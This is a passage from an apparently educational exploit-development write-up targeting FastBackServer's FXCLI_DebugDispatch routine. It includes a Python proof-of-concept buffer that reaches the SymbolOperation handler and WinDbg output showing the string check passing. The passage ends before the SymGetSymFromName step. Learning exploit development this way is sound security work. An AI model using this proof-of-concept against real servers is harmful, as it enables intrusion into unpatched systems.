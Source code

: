 `SymbolOperation` is the trigger string here, meaning we can pass the comparison by updating the PoC from earlier.

```python
# Basic structure to reach SymbolOperation handler
buf = bytearray([0x41]*0xC)    # Initial padding
buf += pack("<i", 0x2000)      # Target opcode
buf += pack("<i", 0x0)         # First memcpy offset
buf += pack("<i", 0x100)       # First memcpy size
buf += pack("<i", 0x100)       # Second memcpy offset
buf += pack("<i", 0x100)       # Second memcpy size
buf += pack("<i", 0x200)       # Third memcpy offset
buf += pack("<i", 0x100)       # Third memcpy size
buf += bytearray([0x41]*0x8)   # Additional padding

# Command buffer with "SymbolOperation"
buf += b"SymbolOperation"
buf += b"A" * (0x100 - len("SymbolOperation"))
buf += b"B" * 0x100
buf += b"C" * 0x100
```

setting a breakpoint on the `strnicmp`, executing the PoC will hit it.

```shell
0:001> bp 0057e84a       ; Set breakpoint on strnicmp
0:001> g
Breakpoint 0 hit
eax=0000000f ebx=0602bd30 ecx=0085e930 edx=0d563b30 esi=0602bd30 edi=00669360
eip=0057e84a

0:001> da poi(esp)       ; Examine first argument
0d563b30 "SymbolOperationAAAAAAAAAAAAAAAAA"
0d563b50 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
0d563b70 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
0d563b90 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
0d563bb0 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
0d563bd0 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
0d563bf0 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
0d563c10 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
0d563c30 ""
0:001> p
eax=00000000 ebx=0602bd30 ecx=00000000 edx=0d562030 esi=0602bd30 edi=00669360
eip=0057e84f esp=0d50da30 ebp=0d50e320 iopl=0 nv up ei pl nz ac pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000216
FastBackServer!FXCLI_DebugDispatch+0xccf:
0057e84f 83c40c add esp,0Ch
0:001> r eax
eax=00000000
```

including the correct string means we'll pass the test and take the code path leading to the `SymGetSymFromName` call. setting a breakpoint on this call (at `0x57E984`):
